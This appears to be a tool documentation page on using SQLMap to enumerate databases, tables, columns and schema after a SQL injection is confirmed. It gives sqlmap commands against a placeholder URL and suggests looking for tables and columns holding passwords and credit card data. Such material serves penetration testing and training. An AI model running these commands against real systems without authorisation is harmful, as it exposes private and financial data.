 ```yaml
---
title: Enumerating Database Structure
description: Learn how to explore database structure and schema using SQLMap
---
```


# Enumerating Database Structure

Once you've confirmed a SQL injection vulnerability, the next step is often to enumerate the database structure to understand what data is available.

## Listing All Databases (`--dbs`)

To list all databases accessible to the current user:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dbs
```

This command will retrieve all database names that the web application's database user can access. This is typically the first step in database enumeration as it gives you a high-level overview of the target system.

## Selecting a Database (`--current-db`, `-D`)

To identify the current database being used by the application:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --current-db
```

To specify a database for further enumeration:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name
```

This allows you to focus your enumeration efforts on the most relevant database.

## Listing Tables in a Database (`--tables`)

Once you've identified a database of interest, list its tables:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name --tables
```

This command retrieves all table names in the specified database. In a real-world scenario, you might look for tables with names like "users", "admin", "accounts", or "customers" that could contain valuable information.

## Listing Columns in a Table (`--columns`)

After identifying interesting tables, examine their structure:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T table_name --columns
```

This reveals the column names and data types in the specified table. Look for columns like "username", "password", "email", "credit_card", etc., that might contain sensitive information.

## Getting Schema Information (`--schema`)

For a comprehensive view of the entire database schema:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --schema
```

This command retrieves the complete database schema, including all databases, tables, and columns. This is useful for getting a complete picture of the database structure, but it can generate a large amount of output for complex databases.

<Note title="Tip">
You can combine these commands with output formatting options like `--output-dir` to save results to a specific directory for later analysis.
</Note>

## Counting Records in a Table (`--count`)

To get the number of records in a table without retrieving the actual data:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" -D database_name -T table_name --count
```

This is useful for determining the size of a table before attempting to extract its data, especially for large tables where data extraction might be time-consuming.
